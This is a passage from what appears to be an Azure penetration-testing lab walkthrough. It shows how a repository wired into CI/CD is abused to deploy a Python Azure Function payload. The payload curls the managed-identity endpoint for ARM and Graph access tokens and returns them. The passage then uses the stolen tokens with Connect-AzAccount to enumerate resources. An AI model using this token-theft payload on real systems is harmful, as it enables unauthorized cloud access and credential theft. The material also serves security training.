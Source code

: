 ```python
        return func.HttpResponse(f"Hello, {name}. This HTTP triggered function executed successfully.")
    else:
        return func.HttpResponse(
             "This HTTP triggered function executed successfully. Pass a name in the query string or in the request body for a personalized response.",
             status_code=200
        )
```

- This repository is integrated in a CI/CD pipeline which means that we can leverage that to execute commands. The code snippet above indicates that changes made to __init.py__ in this repo are used for continuous development for the function app `SimpleApps`. We can use that to steal access tokens for that application by replacing the default code with the following payload.
```python
import logging
import os
import azure.functions as func

def main(req: func.HttpRequest) -> func.HttpResponse:
    logging.info('Python HTTP trigger function processed a request.')
    IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
    IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
    cmd = 'curl "{0}?resource=https://management.azure.com&api-version=2017-09-01" -H secret:{1}; curl "{0}?resource=https://graph.microsoft.com&api-version=2017-09-01" -H secret:{1}'.format(IDENTITY_ENDPOINT, IDENTITY_HEADER)
    val = os.popen(cmd).read()
    return func.HttpResponse(val, status_code=200)
```

- We can navigate to `https://simpleapps.azurewebsites.net/api/Student72` and steal the tokens which can now be used to authenticate to Azure as the Managed Idenity.
```powershell
PS C:\Auditor> $armtoken = 'eyJ0eX...XZWw8fvabrphwHcQ'
PS C:\Auditor> $msgraphtoken = 'eyJ0eXAi...4m2q8nd9utw'
PS C:\Auditor> Connect-AzAccount -AccessToken $armtoken -MicrosoftGraphAccessToken $msgraphtoken -AccountId 95f40eea-6653-4e11-b545-d9c2f5f90a29

Account                              SubscriptionName TenantId                             Environment
-------                              ---------------- --------                             -----------
95f40eea-6653-4e11-b545-d9c2f5f90a29 DefCorp          2d50cb29-5f7b-48a4-87ce-fe75a941adb6 AzureCloud

PS C:\Auditor> Rename-AzContext "DefCorp (b413826f-108d-4049-8c11-d52d5d388768) - 2d50cb29-5f7b-48a4-87ce-fe75a941adb6 - 95f40eea-6653-4e11-b545-d9c2f5f90a29" "DefCorp (b413826f-108d-4049-8c11-d52d5d388768) - 2d50cb29-5f7b-48a4-87ce-fe75a941adb6 - SimpleApps"
```

- We can now enumerate the accessible Resources.
```powershell
PS C:\Auditor> Get-AzResource
```
